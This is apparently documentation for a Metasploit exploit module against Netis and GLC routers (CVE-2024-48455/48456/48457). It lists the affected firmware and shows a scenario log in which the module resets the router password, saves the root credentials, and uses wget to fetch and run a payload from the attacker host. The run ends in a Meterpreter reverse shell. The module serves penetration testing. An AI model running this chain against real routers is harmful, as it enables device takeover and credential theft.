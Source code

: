 ```msf
  * netis_app_BeeWiFi_NC63_v4_Bangladesh-V3.0.0.3503.bin
  * netis_NC65_V3.0.0.3749.bin
  * Netis_NC65_Bangladesh-V3.0.0.3508.bin (https://www.netis-systems.com/support/downinfo.html?id=34)
  * Netis_NC65v2-V3.0.0.3800.bin (https://www.netisru.com/support/downinfo.html?id=34)
  * netis_NX10_V2.0.1.3582_fw.bin
  * netis_NX10_V2.0.1.3643.bin
  * Netis_NX10_v1_Bangladesh-V3.0.0.4142.bin (https://www.netis-systems.com/support/downinfo.html?id=33)
  * netis_NX10-V3.0.1.4205.bin (https://www.netisru.com/support/downinfo.html?id=33)
  * netis_app_BeeWiFi_NC21_v4_Bangladesh-V3.0.0.3329.bin
  * netis_app_BeeWiFi_NC21_v4_Bangladesh-V3.0.0.3500.bin
  * Netis_NC21_v2_Bangladesh-V3.0.0.3854.bin (https://www.netis-systems.com/support/downinfo.html?id=40)
  * GLC_ALPHA_AC3-V3.0.2.115.bin (https://drive.google.com/drive/folders/1P69yUfzeZeR6oABmIdcJ6fG57-Xjrzx6)
  * potentially others...

References:
  https://nvd.nist.gov/vuln/detail/CVE-2024-48455
  https://nvd.nist.gov/vuln/detail/CVE-2024-48456
  https://nvd.nist.gov/vuln/detail/CVE-2024-48457
  https://github.com/users/h00die-gr3y/projects/1

View the full module info with the info -d command.
```
## Options
### CMD_DELAY
Chained command lines using `;` do not work, so each command need to be executed in a separate request
with delay of 30 seconds of more to avoid session locking using the `CMD_DELAY` option.

## Scenarios
### GLCtec ALPHA-AC3 Router Emulation Linux Dropper -  linux/mipsle/meterpreter_reverse_tcp
```msf
msf6 exploit(linux/http/netis_unauth_rce_cve_2024_48456_and_48457) > rexploit
[*] Reloading module...
[*] Started reverse TCP handler on 192.168.1.253:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.1.254:80 can be exploited.
[+] The target appears to be vulnerable. GLC(ALPHA-AC3)-V3.0.2.115
[*] Resetting router password for authentication.
[*] Logging in with the new router password 4vNcez42D to get the password cookie.
[*] Saving router credentials (root) at the msf database.
[*] Executing Linux Dropper for linux/mipsle/meterpreter_reverse_tcp
[*] Using URL: http://192.168.1.253:1981/ZhIplAe6jD9O7J
[*] Executing wget -qO /tmp/hMvelDeE http://192.168.1.253:1981/ZhIplAe6jD9O7J
[*] Client 192.168.1.254 (Wget) requested /ZhIplAe6jD9O7J
[*] Sending payload to 192.168.1.254 (Wget)
[*] Command Stager progress -  53.85% done (63/117 bytes)
[*] Executing chmod +x /tmp/hMvelDeE
[*] Command Stager progress -  72.65% done (85/117 bytes)
[*] Executing /tmp/hMvelDeE
[+] Deleted /tmp/hMvelDeE
[*] Meterpreter session 7 opened (192.168.1.253:4444 -> 192.168.1.254:54551) at 2024-12-29 11:28:49 +0000
[*] Command Stager progress -  83.76% done (98/117 bytes)
[*] Command Stager progress - 100.00% done (117/117 bytes)
[*] Server stopped.
```